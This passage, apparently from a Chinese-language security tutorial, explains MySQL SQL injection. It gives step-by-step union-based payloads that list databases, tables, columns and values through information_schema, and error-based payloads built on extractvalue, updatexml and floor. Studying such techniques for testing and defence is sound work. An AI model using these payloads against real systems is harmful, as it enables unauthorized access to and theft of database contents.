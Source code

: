 联合查询注入是在原有的查询条件下，通过union拼接上select语句，union可以用于合并两个和多个select语句的结果集  
  
   
  
当union之前的select语句结果集为空时，查询结果将由union后的select语句控制。  
  
   
  
联合查询语句构造步骤：  
  
1.order by判断原有查询语句的列数  
  
2.使原有查询语句的结果为空  
  
3.判断数据输出位置  
  
4.使用union语句拼接目标数据的查询语句  
  
  
对于页面有回显，通常使用联合查询注入，可以快速爆出数据。  
  
   
  
示例：  
```
order by //确定列数

union select 1,2,3 //显示回显位

union select 1,database(),user() //通过回显位爆出内容

union select 1,2,group_concat(schema_name) from information_schema.schemata //爆库

union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() //爆表

union select 1,2,group_concat(column_name) from information_schema.columns where table_name='表名' and table_schema=database() //爆列

union select 1,2,group_concat(列名) from 表名 //爆值
```  
  
#### （2）报错注入  
  
报错注入经过构造的函数，让函数处理user()等不合规定的数据，引发mysql报错；几乎任何与数据库有关的操作经过sql拼接都可以产生报错注入；当执行的SQL语句出错时返回错误信息，在错误信息中返回数据库的内容。  
  
   
  
构造报错注入的语句：  
  
1.构造目标数据查询语句  
  
2.选择报错注入函数  
  
3.构造报错注入语句  
  
4.拼接报错注入语句  
  
常见的报错注入函数：floor()、extractvalue()、updatexml()等  
  
  
报错注入一般使用在查询不回显数据，但会打印错误信息的页面中：  
```
extractvalue(1,concat(0x7e,(select user()),0x7e)) //extractvalue报错将输出的字符长度限制为32位

updatexml(1,concat(0x7e,(select database()),0x7e),1) //updatexml报错将输出的字符长度限制为32位

select count(\*) from information_schema.tables GROUP BY concat((select database()),floor(rand(0)\*2)) //floor报错将输出字符长度限制为64个字符
```  
  